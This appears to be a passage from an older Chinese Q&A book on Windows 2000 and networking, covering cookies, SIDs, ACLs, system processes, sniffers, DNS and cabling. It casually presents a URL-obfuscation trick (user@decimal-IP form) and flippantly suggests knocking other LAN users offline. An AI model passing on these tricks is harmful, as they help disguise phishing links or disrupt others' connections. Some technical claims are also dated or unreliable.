**注意：**如果这里有多个连接的话，下面的“对于局域网”这一项会有下拉条，这里呈可选择的状态。在这里，一定要选择连接到的局域网中的那一块网卡，一般都是默认的“本地连接”（图9-15）。

在主机上做完了设置后，到其他所有想要使用该主机上网的主机上再进行如下设置：

右键“网上邻居”→“属性”→“右键本地连接”→“属性”→Internet 协议（TCP/IP）→“属性”。在这里，可以配置自己的 IP 地址、DNS 以及网关。在这里，我们要做的就是配置网关地址为 192.168.0.1（图9-16）。

OK，完成以上这些步骤的设置后就可以上网了。

**题外话：**该法与在主机上配置代理服务器然后所有主机通过代理来上网是有所不同的。代理方式上网的话，那么很多工具都不能直接使用，而要配置代理服务器地址才可以，这样会带来很大的不方便。

> 为什么我装了防火墙后就不能 QQ 了？有谁能告诉我！

我来教你个方法。  
查看你的防火墙规则，在里面看看是否屏蔽掉了所有 UDP 协议的数据，因为 QQ 是使用 UDP 协议来进行传输的。另外，再看看 UDP 协议的 4000 端口是否被屏蔽，因为 QQ 是使用 UDP 4000 端口来和服务器进行通信的。还有还有，就是 4000 到 8000 的 UDP 端口也要看看有没有被屏蔽掉，因为在使用 QQ 进行聊天的时候，QQ 将从 UDP 4000 到 8000 中抽取临时端口来进行数据传送。

> 我现在是通过局域网上网的，速度很快，但是流量有限制，我怎样能够让我的流量没有限制呢？

局域网最大的特点，就是带宽是属于共享的。如果是多台主机一起上网的话，除非你是充当网关或者有什么其他特殊优势，否则一般状况下是不可能自己独占带宽的。因此，如果你想独占带宽是不太可能的。如果真的这么想的话，把其他所有人都炸掉线吧。

## 什么是 Cookie？

Cookie，小甜点。好吃哦，不过这只是按英文翻译而已。不过，Cookie 在网络中对黑客们来说也是小甜点哦，因为黑客可以通过它获得一些大家不想透露的私人信息。

说一下 Cookie 的作用：记录访客的某些信息。例如可以利用 Cookie 记录用户光临你的网页次数，或者访客曾经输入过的信息。某些网站（如网易社区）可以自动记录你上次登录的用户名，用的就是 Cookie。

最常见的情况，当你进入一个需要用户登录的论坛的时候，在你输入了第一个字母的时候，会发现出现几个以该字母开头的用户名等信息，这就是 Cookie 的作用了。

想进一步了解的话，来这里看看：`C:\Documents and Settings\Administrator\Cookies`（注意，这里是 Administrator 的 Cookie 存储位置，如果你登录计算机不是以 Administrator 身份登录的话，去 `C:\Documents and Settings` 下找和你的用户名相同的那个文件夹），在这里（图9-17）可以看到好多形如 `python@yahoo[1].txt` 为名字的 txt 文本文件，这里就有一些敏感信息。不过，大部分的东西都是经过加密的，都看不到。但是，如果你细心找的话，还是能看到一些信息的。

例如，在这里我打开一个名为 `python@www.bbs.chinaren[2].txt` 的文本。其实从名字里就能看出来，这是访问过了校友录的论坛。我们再来看看里面（图9-18），在这里可以看到明文的信息：`alumni.chinaren.com`，呵呵，很明显，这就是 Chinaren 校友录的地址了，后面那些信息则是一些敏感信息哦，不过都被加密了，看不到。

至于如何解密 Cookie，我也没有办法啦。但是，对于一些不想让别人知道自己行踪的人来说，这还是暴露了他在网上的一些动作，因此也是不能被忽视的。

## 如何清除掉 IE 的 Cookie？

默认情况下，IE 是会打开 Cookie 这个功能的。因此，默认情况下会记录下好多我们不想让别人知道的信息。所以，对于那些不是一个人自己使用的主机来说，经常清除 Cookie 是有必要的。在 IE 中，清除 Cookie 的方法如下：

工具→“Internet 选项”，在“常规”选项卡中，点击删除“Cookies”（图9-19）。这时候，我们再来到存储 Cookie 文本文件的那个文件夹里（位置是 `C:\Documents and Settings\Administrator\Cookies`）可以看到，里面只剩下一个 `index.dat` 文件了，其他的文本文件都被删除了（图9-20）。

大家不要以为这就没事了，还有呢，继续清除：

还是 Internet 选项中，但这次是“内容”选项卡，点“自动完成”，会有一个“自动完成设置”的卡片弹出来，在这里点“清除表单”和“清除密码”（图9-21）。

其实，严格地说，上一步应该不算是清除 Cookie，而只是清除表单的一个过程。下面，则是真正清除 Cookie 的关键一步：

还是 Internet 选项，“常规”选项卡中，选择“设置”，然后再选择“查看文件”。这时候，会弹出一个文件夹（文件夹是 `C:\Documents and Settings\Administrator\Local Settings\Temporary Internet Files`，当然，每个用户是不同的），里面就是访问过的一些 Web 页面的记录了（图9-22）。然后，看哪个不爽就删哪个就可以了。

OK，经过八年抗战，现在你的 IE 就像刚装上时候一样干净了。

## 怎么样才能使 IE 不使用 Cookie？

大家都上过论坛吧，有一些论坛在登录过程中会显示一些话，大概意思就是说本论坛需要使用 Cookie 功能，如果浏览器禁用了 Cookie 的话，将不能正常登录该论坛。这说明什么？当然是说明了 IE 浏览器的 Cookie 是可以禁止的了。禁止方法比较简单，过程如下：

来到 IE 的 Internet 选项中，选择“隐私”卡片，在里面有一个滑块，将滑块调节到最高的位置。这时候，看到旁边的注释将变为“阻止所有 Cookie”（图9-23）。这样就完成了。

## win2k 部分

我装了 IE6.0 以后，当输入 sohu 后再按 ctrl+enter 出现的不是 www.sohu.com 而是 www.sohu.co.cn，这是怎么回事啊？

这是 IE6.0 的说大不大说小不小的一个 bug。不过还好，我们可以通过修改 IE6.0 的 DLL 文件来自己手动修补这个 bug。这里，我们需要一个工具 eXeScope，一个可以修改 DLL 和 EXE 文件的小工具。先来到 `C:\WINNT\system32` 目录（win98 则为 `C:\windows\system`），找到 `browselc.dll` 并复制备份，然后用 eXeScope 打开它（图9-24）。

然后找到“资源”→“字串表”下的“809”，在右侧窗口中找到“12936”，其后内容为 `http://www.%s.co.cn`（图9-25）。

就修改这一行为 `http://www.%s.com.cn`，当然也可以改成其他如 `http://www.%s.net`。保存后，需要替换系统原文件：在 Windows 下不能直接替换，需进 DOS 模式（NTFS 则进安全模式），把文件 copy 到 `system32`（win98 为 `system`）目录覆盖原文件。完成后再按 ctrl+enter 测试即可恢复正常。

IE6.0 除了按 ctrl+enter 的那个 bug 以外，好像还有一个吧，是什么呢？

如果说 bug 而不是 IE 漏洞的话，这里确实还有一个：处理 URL 时会有一点怪异。平时访问 `http://www.sohu.com` 只需在地址栏输入即可；但在 IE6.0 中，如果输入类似 `http://abcdefghijk@www.sohu.com` 这样的地址，也会自动转到 sohu 主页（图9-26）。

其实，在这里 @ 符号前的字符是可以随便输入的，无论输入什么，浏览器都会忽略 @ 前的字符串而直接去解释后面的地址。这是一个比较奇怪的现象，大家有兴趣的话可以自己去试试，比较有意思。

另外，还有一个小 bug，呵呵，这个就更有意思了。假设我们要访问一个 IP 地址为 192.168.5.1 的 Web 页面，那么我们可以访问这个地址：`http://www.163.com@3232236801`，这时候你会惊奇地发现，Web 页面居然被转到了 192.168.5.1 这里。其实我是这么做的：首先将 192.168.5.1 转换成为十六进制：`c0.a8.05.01`，然后去掉中间的点（“.”），直接成为一个十六进制数：`c0a80501`，将这个数值再转换为十进制就是 3232236801 了。大家有兴趣的话可以试试，很有意思的。

## 什么是交互式登录？

像我们平时使用自己的计算机的时候，需要输入用户名和密码，正确则登录，错误则提示。在域中也是一样，这就属于交互式登录。简单地讲，一句话：基于用户帐号和密码的登录方式就是属于交互式登录。

## 什么是安全标识符（SID）？

SID = Security Identifier。  
在这里，我们使用 win2k svr 的 resource kit 中的一个工具 getsid 来获得一个本地机用户的 SID（图9-27）。

这样，我们获得了两个帐号（test 和 guest）的 SID，分别为：  
S-1-5-21-2025429265-813497703-1343024091-1027  
和  
S-1-5-21-2025429265-813497703-1343024091-501。  
我们就以后一个 SID 为例，进行一下分析。

```text
S-1-5-21-2025429265-813497703-1343024091-501
S-R-A-S-S-S-S-S
```

上面是 guest 帐号的 SID 和 SID 的格式的对照。S 就是指明它是一个 SID。R 则表明这个 SID 的版本号，这里为 1。A 则是指 SID 的颁发者，这里为 5，则是指 win2k。

接下来的四个 S 对应 21-2025429265-813497703-1343024091，它们是用来唯一标明域和组名的。总之，记住，这串号的组合是唯一的。

最后一串号则有点特殊意义了。例如这里为 501，那么我就可以知道他是 guest。有人会说这是废话，因为我看到了。其实，我没看到我也会知道，因为在 SID 中，最后尾数为 501 的除了 guest 这个帐号以外，就没有别人了。除了 guest 以外，administrator 的 SID 的尾数也很特殊，是 500，所以这两个特殊的 SID 尾数要记住啊。

另外，还有一些其他的特殊 SID 希望大家可以记住：

- S-1-5-7：匿名登录时使用的 SID（常见 IPC$ 空连接）
- S-1-1-0：Everyone 组的 SID
- S-1-5-32-544：Administrators 组的 SID
- S-1-5-32-545：Users 组的 SID
- S-1-5-32-546：Guests 组的 SID
- S-1-5-32-547：Power Users 组的 SID

## SID

其他的 SID 还有好多好多好多……就不多介绍了，有兴趣的朋友多找一些相关的资料吧。

## win2k+NTFS 通过什么来识别用户并做到对某些文件访问的禁止与允许？

通过两个方面：一个是用户的令牌。在用户登录系统的时候，系统会发给用户一个令牌，这个令牌中包含了用户的一些基本信息，其中最主要的就是 SID 了。关于 SID 的问题已经说过了，SID 可以唯一地标识一个用户，因此操作系统完全可以根据 SID 来判断用户是谁。

另外，就是关于用户对某些应用程序的访问权限了。这一点，就要由 NTFS 磁盘的一些功能来决定了。

NTFS 的磁盘上是可以设置权限的，权限中将表明该程序允许哪些用户访问，不允许哪些用户访问。我们可以用 `CACLS` 命令来查看当前用户对某个文件或是文件夹的权限。

例如，使用命令 `cacls php` 来查看 php 文件夹的 ACL。从结果中可以看出，我的当前用户 python 对这个文件夹的访问权限是 F，也就是 full control（完全控制）（图9-28）。

可以看到了，由上面两个机制共同协作，基本上就决定了用户对某些程序访问的禁止与允许了。

## 能描述一下在 win2k 域中的用户登录过程么？

首先要先了解一点，就是在域中默认是使用 kerberos 方式进行验证的。关于 kerberos 验证方式比较麻烦，而且复杂，其中有些问题不是几句话可以说清楚的，所以在这里就不说了。直接简单地描述一下登录过程就好了：

当用户在本地登录的时候，是需要到一个叫做本地安全子系统（Local Security Subsystem）中进行验证；而在域中，同样是要到一个安全子系统中做一个身份验证。验证通过后，将会读取该用户在域中的权限，并且还会读取该用户的 SID（分别读取 User SID 和 Group SID）。过程结束后，用户就可以登录到域了。

这就是一个大概的过程。其实并不详细，而且由于条件决定，也不可能详细地讲解，希望大家能够多读一些相关的资料。

## win2k 本地机用户登录后的令牌中都有什么？

win2k 中，本地用户登录后，系统会发给他一个叫做令牌的东西。这里包含了一些用户信息，以证明该用户的身份，并且在对某些文件进行访问的时候方便权限的管理。我们在这里使用 resource kit 中的工具 whoami 来查看当前用户的令牌中的情况，命令格式为：`whoami /all`，然后将显示如图结果（图9-29）。

在这里，我们看到的第一行内容为：[User] = "PYTHON\python"，S-1-5-21-2025429265-813497703-1343024091-500

这就是标识了用户以及该用户的 SID，这样就可以在系统中做到唯一地标识用户的目的了。NTFS 中的权限也是根据 SID 来决定是否可以访问的。

> 防火墙是通过什么来达到屏蔽攻击和入侵的？

防火墙在现象上表现的就是制定了 N 多个防火墙规则，而实质上每条规则都将对应一个针对某个协议或是某个端口或是某个 IP 等等的拒绝或是允许。这样，最终就达到了防火墙的最终目的——拦截入侵和攻击。

> ACL 和 ACE 之间有关系么？有的话，是什么关系？

ACL—访问控制列表；ACE—访问控制元素。

它们之间是包含与被包含的关系：一个 ACL 中包含了多个 ACE，而多个 ACE 就会组成一个 ACL，这些我们都是可以看到的。

在 win2k 的主机上，找到一个 NTFS 的分区，然后查看它的属性中的“安全”选项卡（图9-30）。在这里，可以看到的对于权限的设置，可以说就是 ACL 了。至于 ACE，我们也是可以看到：还是在“安全”选项卡这里，点“高级”，出现访问控制设置对话框（图9-31）。

在这里，将有针对每个不同用户的权限项目。在这里，只有一条，因为我只针对一个用户做了设置。双击这个权限项目，在这里可以看到很多的条目（图9-32）。

好像是一个细则，这里可以说是一个个的 ACE 了，我们也完全可以使用它来针对某个文件或是文件夹来设置权限的。

这样说明后，就应该可以了解 ACL 与 ACE 的关系了吧。

## win2k 部分

SNMP 是什么？介绍一下相关的知识吧！

SNMP = Simple Network Management Protocol，简单网络管理协议。简单网络管理协议（SNMP）首先是由 Internet 工程任务组织（Internet Engineering Task Force）（IETF）的研究小组为了解决 Internet 上的路由器管理问题而提出的。许多人认为 SNMP 在 IP 上运行的原因是 Internet 运行的是 TCP/IP 协议，然而事实并不是这样。SNMP 被设计成与协议无关，所以它可以在 IP、IPX、AppleTalk、OSI 以及其他用到的传输协议上被使用。另外，值得注意的是，SNMP 是一个应用级的协议，而不是像我们接触的 TCP/IP 一样是传输级的协议。

对于 SNMP 来说，分为管理设备、被管理设备和代理。

从被管理设备中收集数据有两种方法：一种是只轮询（polling-only）的方法，另一种是基于中断（interrupt-based）的方法。

从字面上就可以看出，轮询的方法就是管理设备会定时询问被管理设备，询问其是否有错误或是其他什么。

基于中断的，如果大家学习过操作系统原理的话，就会了解中断。也就是说，当设备出现问题的时候，它会产生一个中断，并发送信息给管理方以求帮助。

然而，在实际应用中，却很少使用这两种中的任何一种，而是使用面向自陷的轮询方法（trap-directed polling）。这是因为以上两点的缺点所决定的：

轮询，即使在被管理设备没有出现异常情况的话，管理设备也要使用大量的带宽去询问被管理设备，因此造成了一定的浪费。

中断，如果多个设备同时发出了中断信号的话，怎么办？不但占用了大量带宽，而且对于管理方来说，会占用大量的资源来处理这些事务。因此，也不完美。

而面向自陷的轮询方法，网络管理工作站轮询在被管理设备中的代理来收集数据，并且在控制台上用数字或图形的表示方式来显示这些数据。这就允许网络管理员分析和管理设备以及网络通信量了。被管理设备中的代理可以在任何时候向网络管理工作站报告错误情况，例如预置阈值越界程度等等。代理并不需要等到管理工作站为获得这些错误情况而轮询它的时候才会报告。这些错误情况就是大家熟悉的 SNMP 自陷（trap）。

呵呵，好像说得太多了，不知道大家是否可以接受，总之，慢慢消化吧。

谁可以讲一下 win2k 的任务管理器的进程中那些东西都是什么啊？

都讲了是不可能了，这里就针对一些系统的关键进程讲解一下吧！！

```text
csrss.exe
```

这个是用户模式 Win32 子系统的一部分。csrss 代表客户/服务器运行子系统，而且是一个基本的子系统，必须一直运行。csrss 负责控制 Windows，创建或者删除线程和一些 16 位的虚拟 MS-DOS 环境。这个是关键的系统进程哦。

```text
explorer.exe
```

这是一个用户的 shell（shell 都知道吧，简单地翻译为外壳吧），在我们看起来就像任务条、桌面等等。想知道它是干什么用的吗？结束掉它看看就知道了，这时候会发现你的桌面没有了，哈哈，别怕，用任务管理器来进行一个新任务（在“应用程序”卡片中有按钮“新任务”），新任务里写上 `explorer.exe`。呵呵，怎么样，桌面又回来了，这次知道 `explorer.exe` 是干什么用的了吧？

## internat.exe

可以停掉的一个进程，算不上什么系统关键进程。其实，它就是输入法在任务栏中的图标而已，看你喜不喜欢了，不喜欢就停掉它。

## lsass.exe

这个进程是不可以从任务管理器中关掉的。这是一个本地的安全授权服务，并且它会为使用 `winlogon` 服务的授权用户生成一个进程。这个进程是通过使用授权包（例如默认的 `msgina.dll`）来执行的。如果授权成功，`lsass` 就会产生用户的进入令牌，令牌被用来启动初始的 shell。其他由用户初始化的进程会继承这个令牌。

## mstask.exe

这个进程是不可以从任务管理器中关掉的。这是一个任务调度服务，负责用户事先设定在某一时间运行的任务。

## smss.exe

这个进程是不可以从任务管理器中关掉的。这是一个会话管理子系统，负责启动用户会话。这个进程由系统进程初始化，并且会对许多活动作出响应，包括已经正在运行的 Winlogon、Win32（`csrss.exe`）线程和设定的系统变量。

在它启动这些进程后，它等待 Winlogon 或者 Csrss 结束。如果这些进程是正常的，系统就关掉了。如果发生了什么不可预料的事情，`smss.exe` 就会让系统停止响应（就是挂起）。系统的关键进程哦，以 System 权限运行，所以才会出现它身上的 debug 漏洞可以直接提升本地任意用户到管理员。

## spoolsv.exe

这个进程是不可以从任务管理器中关掉的。缓冲（Spooler）服务是管理缓冲池中的打印和传真作业。

## services.exe

这个进程是不可以从任务管理器中关掉的。大多数系统核心模式进程都是作为系统进程在运行。

## System Idle Process

这个进程是不可以从任务管理器中关掉的。这个进程是作为单线程运行在每个处理器上，并在系统不处理其他线程的时候分派处理器时间。

## winlogon.exe

这个进程是管理用户登录和退出的。而且 `winlogon` 在用户按下 `Ctrl+Alt+Del` 时就激活，显示安全对话框。

## winmgmt.exe

`winmgmt` 是 Win2000 客户端管理的核心组件。当客户端应用程序连接，或当管理程序需要它本身的服务时，这个进程初始化。

## taskmgr.exe

这个进程呀，哈哈，它就是任务管理器，就是你查看进程时候所看到的那个东西啦。

## 扫描工具是根据什么来检测到打开端口和漏洞的？

扫描端口的时候，简单点说，我们可以认为扫描工具是试图与某些端口通信，来达到扫描并检测端口是否开放的目的。曾经有朋友问过我，为什么他使用 x-scan 扫描本机的时候，防火墙软件报告说：“x-scan 软件正在尝试发送邮件”等等信息。由此可见，一些扫描程序也是模拟一些应用软件去使用端口对应的服务，来达到检测端口是否开放的目的。

至于 CGI 漏洞的扫描，扫描器则会提交或通过 N 多种手法来制造一个错误地址或请求等等，看你的服务器返回信息：如果返回 `HTTP 200`，则证明成功，该漏洞存在；如果返回 `HTTP 404`，这就是失败了，证明该漏洞不存在。

## 我在网上邻居上共享应用程序，在别人机器上点击它，那么是在我机器上运行还是在他机器上运行了这个程序？

计算机连接到网络上，除了资源共享以外，另外还有一个优点就是能做到互操作。互操作就是指一台主机运行另外一台远程主机上的程序，而运行过程在本地执行，并且做到远程调用程序并运行的过程对用户透明。

因此，在远程主机的共享资源中点击程序的话，程序是在本地运行的。

## sniffer 的原理是什么，它为什么能监听到网络上的其他数据？

普通情况下，网卡只接受和自己地址有关的信息包，即传输到本地主机的信息包。而一般我们讲的 sniffer 程序，是把网卡置为一种叫混杂模式（promiscuous）的状态。一旦网卡设置为这种模式，它就能使 sniffer 程序接收传输在网络上的每一个信息包。

而且，比较重要的一点就是，sniffer 程序需要以 root 身份安装和运行。因此，本地用户即使安装了 sniffer，也不能嗅探到任何信息。

基于 sniffer 这样的模式，可以分析各种信息包，可以很清楚地描述出网络结构和使用的机器。由于它接收同一网段上传输的任何一个数据包，所以也就存在 sniffer 可以用来捕获密码、Email 信息、秘密文档等一些其他没有加密的信息。因此这成为黑客们常用的扩大成果的方法，夺取其他主机控制权。

## 请问如何才能把自己的网卡设置为混杂模式呢？

设置成混杂模式后就可以进行 sniffer 了，想法很好。但是，混杂模式并不是手动就可以设置的，必须使用软件来进行设置。将网卡设置为混杂模式的软件，就是我们常见的 sniffer 程序。

## 我的 win2k 的日志查看器里记录了很多错误，但是都是以 ID 号的形式记录的，看不懂啊，怎么办？

以下列出几个最常见的 ID 号，做一个参考：

- **529** 登录失败。小心！如果不是你自己登录失败的话，说明有人可能试图猜解你的口令。
- **6005** Windows NT 重新启动。如果不是你自己重启的话，可能是被 DoS 了。
- **6006** 正常关机。
- **6008** 因权限不足而无法关机。注意，是否有人要做坏事呢？
- **6009** 不正常关机。非常注意，很可能是因为有人在搞破坏。

系统版本号、构建号、补丁号和系统处理器信息都可以看得出来，这是几个比较常见的情况。另外，如果想获得更多事件 ID 相关信息，可以到微软官方网站查询：

http://msdn.microsoft.com/library/psdk/psdkref/errlist_9usz.htm

> **问：** 我的 win2k 总是提示缺少文件、报错，怎么办啊？我不想重装。  
> **答：** 用 win2k 光盘启动系统，或从 DOS 进入 win2k 安装程序，在安装过程中选择“修复当前的 win2k”，等待修复即可。另外也可以在 GUI 界面下使用 `sfc /scannow` 命令进行修复。

命令 `sfc /scannow` 也可以修复系统；程序会自动替换一些系统关键文件和受保护文件。


> **问：** 我同学的主机为 Windows XP，我的是 win2k pro，建立 ipc$ 连接总是失败，怎么回事？  
> **答：** Windows XP 在建立 ipc$ 连接方面常见兼容问题。可尝试在 Windows XP 安装 NETBEUI 协议（安装方法前文已有说明）。安装后多数机器会改善 ipc$ 连接稳定性，虽然个别情况下仍可能时好时坏，但通常会比之前好。

> **问：** 我使用的是 Windows 2000 Advanced Server，停止了“计划任务”后，重启后怎样让它显示在屏幕右下角任务栏中？  
> **答：** 在 win2k 中，“计划任务”是一个服务，需重新启用相关服务后才会恢复托盘显示。

它的名字叫做 Task Scheduler，大家都很熟悉 `at` 命令了吧，`at` 命令就是基于 Task Scheduler 这个服务的。

而在 win98 中则不一样，在 win98 中，计划任务不是一个服务，而只是一个系统自带的实用工具，或者说是应用程序而已。正是因为这些差别，在 win2k 中，计划任务的图标不可能显示在任务栏右下角中。

## 我的 OS 是 WIN2000，由 WIN98 升级的，我在装 NETXRAY 和 BLACKICE 时，系统出现“setup detects netxray already installed. please deinstall it from control panel first and run setup again!”

虽然说你装的是黑软，但是这却代表了一类问题。很多人在安装其他一些软件时也会收到这样的错误信息，这主要是因为重复安装。在这之前，你已经安装过该软件，但是删除的时候并不是使用正常删除方法（在控制面板的“添加/删除程序”中进行删除），这就导致注册表中残留了一部分软件信息。而一些软件在安装前偏偏就要扫描一下注册表，扫到这些残留信息后，它会认为系统已经安装了该软件，没有必要再次安装，因此就会有这些信息了。

至于解决办法，到“添加/删除程序”中正确删除程序；如果一些程序已经删除，在“添加/删除程序”中也无法再删除的话，参看 win2k 的注册表部分，在那里有解决办法。

## 能不能把 Win2k 里的 CMD.exe 改名？

可以的，不过在修改过程中或修改后可能会有一些提示，但是不用理它。而且你要记住修改之后的名字，因为你以后还要用它，忘了的话，呵呵……

## 我的操作系统是 win2k+NTFS，因为中毒的原因，我重装了系统。但是，当安装完新的 win2k 之后才发现，我原来在磁盘中加密的文件已经打不开了，怎么办啊？

啊啊，好倒霉。win2k 的加密文件是使用 EFS 加密的，如果不是原来的加密用户，或是没有加密用户的证书的话，根本就毫无办法。

但是这里恢复的办法好像有一个：安装一个证书颁发机构，然后给你的管理员创建一个新的证书。这样的话，如果足够幸运就可以再将数据打开了。如果不行就只能 format 了。另外，只有 Server 以上版本才可以安装证书颁发机构，如果你用的是 Professional 的话，节哀吧，至少我是没办法了。

这是在遇到灾难时恢复的一个办法。但是，如果在没有遇到灾难的时候呢？居安思危啊，平时要记得将加密用户证书导出，方法为：

- 开始 -> 运行 -> `mmc`
- 添加/删除管理单元，点击“添加”
- 在弹出窗口中找到“证书”（图9-34）


然后会询问为哪个账户添加证书，只要选择“我的账户”就可以了。完成后，在 mmc 中依次打开“个人 -> 证书”，在右窗口中就会看到证书了（图9-35）。


图9-35

然后右键你的“证书”，在所有任务中选择“导出”（图9-36）。导出过程中会询问是否一起导出私钥，这里最好一起导出；而且询问是否要密码的时候，最好输入个密码，以保证证书安全。


图9-36

这样就导出了证书，等到用的时候，只要双击它按提示导入就可以了。

既然说到了 EFS，那么就简单说几句关于 EFS 的知识，说太多理论性东西就没意思了，只说一些好处。

EFS 加密强度不言而喻，很强。而且 EFS 加密后只有该文件拥有者才能打开它。即使你只是一个普通用户，只要使用了 EFS 加密，那么连管理员都无法查看你的文件。而且就算管理员通过“取得所有权”的手法试图获得访问权限，也不能查看。因此，其好处就……嘿嘿，大家都将自己的 win2k 改成 NTFS 磁盘用 EFS 加密吧。

## DNS 解析一个地址的过程是什么样的？

我以 sohu 的 URL 为例：`http://www.sohu.com`。这个地址标准写法其实应该是：`http://www.sohu.com.`

注意看啊，仔细点，不仔细看是看不到差别的，细微差别就在最后面的一个点（“.”）。不要小看这个点，全球地址解析可都靠这个点呢。这个点就是根 DNS 服务器。

当我们提交这个地址给根 DNS，根 DNS 会告诉查询主机下一层所在位置，下一层也就是 `com` 了，`com` 是顶级域名。当查询主机查找到 `com` 后，`com` 又会告诉查询主机 `sohu.com` 的所在位置。这样就确定了 `sohu.com` 这个域了。接下来要做的，就是在 `sohu.com` 里查找一台叫做 `www` 的主机就可以了，这个过程就变得非常简单了。找到这台主机之后，该主机就把漂亮的 web 返回给查询主机了。

如果大家还不是很明白的话，这里列出一些地址：

- http://www.sohu.com
- http://news.sohu.com/
- http://health.sohu.com/
- http://mail.sohu.com/

像这样的地址，可以看得出来，它们都是同属于 `sohu.com` 这一个域中的不同主机。

不知道这样说大家是否明白一些了，希望对大家还是有帮助的。

## DNS 查询过程使用的是什么协议？

协议是 UDP，使用的查询端口是 53 号端口。

因为查询过程有时间性要求，不可能使用 TCP 协议。大家都应该清楚，TCP 会对每次发送的数据进行确认并决定是否重发等等，要做这么一系列动作。这样，如果使用 TCP 进行查询的话，在时间上不如 UDP 快。

但是，当两个 DNS 进行数据动态更新，或是对 DNS 的 Zone 进行查询的时候，使用的就是 TCP 协议了，而且端口也是 53。

> **问：** 我申请了一个域名，而且我有固定 IP，那么我做什么设置才能让人家在地址栏里输入域名（如 http://www.abc.com）就能访问到我的 web 服务器呢？

申请域名的过程我不知道，但是有一些问题是很显然的。域名申请完成后，只要把你的固定 IP 地址告诉申请域名的机构，他们自然会将你的 IP 和域名对应关系添加到 DNS 中。这样一来，只要有人访问这个域名的时候，DNS 就会自动将 IP 解析出来了。

所以说，你只要做好 web 等着人家来看就行了，不用做什么设置。

## 双绞线如何制作？

双绞线一般有两种制作方法，一种用来连接同种设备，另外一种则是连接不同种设备。

如果在一个 LAN 内，一台计算机连接到集线器上或路由器时，使用的双绞线两头对应线序如下（直通线）：

| 线序A | 线序B |
|---|---|
| 1 -> 橙白 | 1 -> 橙白 |
| 2 -> 橙 | 2 -> 橙 |
| 3 -> 绿白 | 3 -> 绿白 |
| 4 -> 蓝 | 4 -> 蓝 |
| 5 -> 蓝白 | 5 -> 蓝白 |
| 6 -> 绿 | 6 -> 绿 |
| 7 -> 棕白 | 7 -> 棕白 |
| 8 -> 棕 | 8 -> 棕 |

如果是两台电脑（或两个集线器）之间进行级联，则线两头对应线序如下（交叉线）：

| 线序A | 线序B |
|---|---|
| 1 -> 橙白 | 1 -> 绿白 |
| 2 -> 橙 | 2 -> 绿 |
| 3 -> 绿白 | 3 -> 橙白 |
| 4 -> 蓝 | 4 -> 蓝 |
| 5 -> 蓝白 | 5 -> 蓝白 |
| 6 -> 绿 | 6 -> 橙 |
| 7 -> 棕白 | 7 -> 棕白 |
| 8 -> 棕 | 8 -> 棕 |

> **问：** 我原来安装的是双系统 win98+win2k，现在格掉了 98，只剩 2k 了，可是每次启动的时候还是有选择 win2k 和 win98 的启动菜单，怎么解决？

到 C 盘根目录下编辑 `boot.ini` 文件，只要删除 win98 的那一行就可以了。具体有关 `boot.ini` 的操作请看本部分最后的附录部分。


图9-37

另外，除了修改这个文件以外，还提供另外一个方法：右键“我的电脑”选择属性，然后选择“高级”选项卡，点“启动和故障恢复”按钮，然后选择默认操作系统为你要直接进入的系统，并去掉“显示操作系统列表”前的钩（图9-37），点确定退出，重新启动计算机就可以看到效果了。

（或没有加载）的所有驱动程序和服务会记录到文件中。文件名为 `ntbtlog.txt`，位于 win2k 所在目录中。安全模式、网络安全模式和命令提示符的安全模式中，都会将加载的所有驱动程序和服务列表添加到启动日志。该日志对于确定系统启动问题的准确原因很有用。


## win2k 启动的时候按下 F8 的启动菜单中那些东西都是干什么用的？


- **1. 安全模式**  
  选用安全模式启动 Win2000 时，系统只使用一些最基本的文件和驱动程序启动。安全模式可以帮助你诊断问题。例如常见情况是添加硬件失败，这样可以到安全模式中删除添加的硬件；还有修改注册表失败导致系统出现问题，也可以到这里来试试。熟悉 win98 安全模式的朋友应该不难发现，win2k 的安全模式和 win98 的安全模式基本相同。

- **2. 网络安全模式**  
  其功能基本与安全模式一样，但是会加载一些基本驱动和网络组件，以保证网络连接正常使用。

- **3. 命令提示符的安全模式**  
  启动过程基本与安全模式相同，也是加载一些最基本的驱动和硬件等等。但是唯一不同的是，该模式启动后不是进入 Windows 的 GUI 界面，而是进入命令提示符状态。启动完成时会看到一个很大的 `cmd.exe` 命令行窗口出现。

- **4. 启用启动日志**  
  启动 win2k，同时将由系统加载（或没有加载）的所有驱动程序和服务记录到文件中。

- **5. 启用 VGA 模式**  
  使用基本 VGA 驱动程序启动 win2k。与安全模式不同，安全模式启动时总会加载基本驱动，这样无法对显卡或者视频设备进行准确排错。因此，如果是显卡或其他视频设备出错，使用这种模式启动。

- **6. 最近一次的正确配置**  
  选择“使用‘最后一次正确的配置’启动 win2k”是解决问题（如新添加驱动程序与硬件不相符）的一种方法。但是，如果是因为丢失或误删除文件导致系统出错，这种方式不管用。用这种方式启动，win2k 只恢复注册表项 `HKLM\System\CurrentControlSet` 下的信息。任何在其他注册表项中所做更改均保持不变。

- **7. 目录服务恢复模式**  
  不适用于 Win2000 Professional。这是针对 Win2000 Server 操作系统的，并且只用于还原域控制器上的 Sysvol 目录和 Active Directory 目录服务。

- **8. 调试模式**  
  启动 Win2000，同时将调试信息通过串行电缆发送到其他计算机。如果正在或已经使用远程安装服务在你的计算机上安装 win2k，你可以看到与使用远程安装服务恢复系统相关的附加选项。

## win2k 的 tracert 命令的工作原理是什么？

tracert 的工作原理和 ping 的原理差不多，就先从 ping 命令讲起吧。

用 ping 来探测主机的过程是这样的：当 ping IP 的时候，主机会发送一个名为 ICMP Echo 请求的数据包，这个数据包会要求对方响应它。当对方收到该请求后，就送回 ICMP Echo Reply 这么一个数据包，这就是响应 ICMP Echo 请求的数据包了，里面会有对方主机的 IP、TTL 等等信息，这就形成了 ping。

了解 tracert 前，再做点准备，就是关于 TTL 值的问题。当数据包经过一个路由器或是一个第三层交换机的话，TTL 就会减一，所以，我们也经常能根据 ping 的结果来判断我们和对方之间隔有几个路由器。如果路由器越少，说明越近。

tracert 就是用了以上两个原理，再加上路由器自己的帮忙，就达到了 trace 路由器的目的。首先，tracert 会像 ping 命令一样发送一个 ICMP Echo 请求包，但是，它发送的时候，会将该包中的 TTL 设置为 1。这样，当该数据包遇到第一个路由器的时候就会被过滤掉了（因为每经过一个路由器 TTL 就会减一，而该包的 TTL=1）。路由器呢，这个人很好，不会单纯地过滤掉就不管了，它还会发给该数据包的主人一个信息，告诉他数据包已经被丢弃了。而在这个送回的数据包中，路由器又会把自己的一些信息加进去，这样，我们就获得了路由器的信息。

